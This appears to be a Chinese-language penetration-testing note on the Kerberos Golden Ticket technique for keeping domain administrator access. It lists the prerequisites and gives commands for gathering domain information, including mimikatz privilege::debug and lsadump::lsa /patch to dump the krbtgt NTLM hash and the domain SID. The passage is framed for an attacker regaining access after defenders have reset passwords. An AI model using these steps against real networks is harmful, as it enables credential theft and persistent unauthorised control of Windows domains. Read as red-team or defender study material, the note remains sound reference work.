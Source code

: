 黄金票据常用来做一个权限维持

使用场景：假设我们在一个域环境下拿到了所有账户的Hash也包括krbtgt账户的NTML hash，由于某些原因，我们失去了对域管权限的丢失（可能是管理员进行加固修改了密码），但是我们还有一个域普通用户的权限，而管理在加固的时候并没有重置krbtgt账户密码（此时krbtgt的Hash不变），在此条件下，我们可以利用该票据重新获取域管理员的权限，利用krbtgt的Hash伪装成任意的TGT，能够绕过对任意用户的账户策略，让用户成为任意组的成员，可用于Kerberos认证的任何服务

条件：

- 域名称
- 域的SID值
- 域的KRBTGT账号的HASH
- 伪造任意用户名

## 利用

1、获取域名

```javascript
whoami
net time /domain
ipconfig /all
```

2、获取SID

```javascript
whoami /all
```

3、获取域的KRBTGT账户NTLM密码哈希或者aes-256值

用mimikatz也可以直接拿到SID和krbtgt的NTML hash

```javascript
privilege::debug
lsadump::lsa /patch
```

![image-20230222184025872](images/1.png)
